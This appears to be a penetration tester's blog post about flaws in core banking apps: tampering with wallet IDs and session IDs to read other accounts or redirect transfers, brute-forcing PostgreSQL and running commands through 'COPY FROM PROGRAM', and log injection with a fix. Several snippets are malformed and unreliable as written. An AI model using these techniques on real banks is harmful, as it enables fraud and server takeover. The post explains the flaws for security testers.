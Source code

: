 ```yaml
---
date: 2023-02-06 23:48:05
layout: post
title: Hacking Core Banking, Is It Too Easy?!
subtitle: Hacking Core Banking, Is It Too Easy?!
description: >-
  In this Blog, I've explained some scenarios which I've faced while hacking some core banking applications.
image: https://i.imgur.com/1NUdPpx.png
optimized_image: https://i.imgur.com/1NUdPpx.png
category: Application Security
tags:
  - web security
  - sql injection
  - bug hunting
  - Broken Access Control
  - API Hacking
  - hackerone
author: Ahmed Fatouh
paginate: true
---
```


### Introduction

> **as Penetration Testers, all of us do a Pentest for core banking applications but there are some people who fear doing pentest for those applications so I'll Put some scenarios I've faced while doing pentest on core banking applications, let me describe what is Core banking.**

> **Core banking is a banking service provided by a group of networked bank branches where customers may access their bank account and perform basic transactions from any of the member branch offices.**

> **let me give you an example, you have an account in Bank A, and you want to send money to your friend which has an account in Bank B, so you will use an online banking application to send money from Bank A to Bank B.**

> now i'll give some scenarios:

### Scenarios

#### Scenario 1:-

lets assume you have an online bankin application which have some functions like see balance, send, receive and so on, and you go to check your balance, the request will be like this:
```ruby
{
 "Ammount":3232,
 "CurrenceyCode": 23123,
 "WalletID":, 132
 "LoginID":, 75656
 "SessionID": 5jlskgdhfsdg
 "UserName":fatouh
}
```
now we have some details, and a valid sessionID, as an attacker you can change the WalletID to any wallet of any user and see all info of this wallet, set the value of the username as NULL as there is no validation for it, or you use the same SessionID and change the client details to another and you will able to see all details of the client, also this for other functions like send, receive money, using the same sessionID I could able to dump all users Wallet info, send, receive money.
This is a simple scenario for online banking hacking, another scenario.

#### Scenario 2:-

you using the mobile application to transfer money from mobile number to another mobile number, the request will be like this:
```ruby
{
 "WalletID":2,
 "ClientTransferToMobileNumber":018083234
 "LoginID":23432
 "SessionID":sdfsdfsd
}
```
now simply change the ClientTransferToMobile number to attacker mobile with the same sessionID and you will able to receive money.

#### Scenario 3:-

if the client gave you the server IP in which they hosted their application, assume that you did nmap scan and you find PostgreSQL running on port 5432,
- you can simply bruteforce the password using the following module in Metasploit: ```auxiliary/scanner/postgres/postgres_login```
- if you were lucky like me, you will get the password, now you can get Remote code execution on the server using the following: 
```ruby
CREAT TABLE cmd_exec(cmd_out text);
copy cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
and now you have rce on the server, very simple ha!.

Scenario 4:- 
let's assume you have the following code sample: 
```ruby
using System.Web;
using System.Web.Mvc;
public class ExampleController : Controller
{
 private static readonly.Log __Logger and so on
 [HttpGet]
 public void Log(string data)
 {
 if (data !=null)
 {
 _logger.info('Log :' + data);
 }
 }
}
```
this code is vulnerable to logging injection as the input should be like this
```ruby
if (data !=null)
{
 data = data.Replace('\n', '_').Replace('\r', '_')
 _logger.Info("Log": + data);
}
```

Cheers!

